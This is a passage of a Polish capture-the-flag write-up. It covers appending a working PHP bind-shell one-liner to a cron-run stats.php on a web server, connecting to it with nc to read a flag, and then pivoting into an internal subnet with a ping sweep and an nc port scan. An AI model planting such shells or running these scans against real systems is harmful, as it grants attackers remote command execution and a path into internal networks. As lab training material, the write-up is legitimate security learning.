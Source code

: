 ```
ls -la
total 400
drwxr-xr-x 3 www-data www-data   4096 Oct 30 02:43 .
drwxr-xr-x 3 root     root       4096 Oct 29 19:48 ..
-rw-r--r-- 1 www-data www-data 313326 Oct 30 02:25 T2H_tlo_header.jpg
drwxr-xrwx 2 www-data www-data   4096 Oct 30 16:33 cves
-rw-r--r-- 1 www-data www-data    175 Oct 29 18:09 database.php
-rw-r--r-- 1 www-data www-data   2309 Oct 30 02:25 favico.png
-rw-r--r-- 1 www-data www-data   1200 Oct 30 02:43 index.php
-rw-r--r-- 1 www-data www-data  62664 Oct 30 02:25 printernightmare.jpg
-rw-r--r-- 1 www-data www-data    186 Oct 29 19:13 stats.php
```
Zanim edytujemy plik, zróbmy jego kopię.
Dodajemy do pliku ```stats.php``` bind shella.
```bash
echo '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",5555);socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);socket_write($cl,$m,strlen($m));}}' >> stats.php
```
Po chwili możemy się połączyć.
```
nc $IP 5555 
$ id
uid=1000(manager) gid=1000(manager) groups=1000(manager),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev)
$ cd ~
$ cat flag1.txt
T2H{REDACTED}
```
Po zestawieniu połączenia, należy przywrócić oryginalny plik ```stats.php```, gdyż cron co chwilę będzie próbował wystawić bind shella, co doprowadzi do zawieszenia maszyny.

# Maszyna wewnętrzna

## Rozpoznanie, tunel i skanowanie
Wynik komendy ```ifconfig``` zdradza drugi interfejs podpięty do sieci ```10.13.37.0/24```.
Na zewnętrznej maszynie nie mamy nmapa więc nie przeskanujemy łatwo całego zakresu i usług. Możemy napisać szybki skrypt, który wyśle ping na każdy adres z tej podsieci.

```bash
for ip in 10.13.37.{0..255}
do
        ping -c 3 ${ip}
done
```
Po kilku minutach skrypt kończy pracę i można sprawdzić, który host odpowiedział na ping sprawdzając czy mamy w tablicy arp MAC adres hosta przy danym adresie IP.
```bash
arp -a
```
Okazuje się, że jest jedna maszyna o adresie ```10.13.37.69``` (hihi). Teraz musimy się dowiedzieć jakie porty są otwarte. W tym celu można użyc ```nc```.
```bash
nc -nvz 10.13.37.69 1-65000
```
![26d25b6ee45805b398830082e2b365ab.png](_resources/26d25b6ee45805b398830082e2b365ab.png)

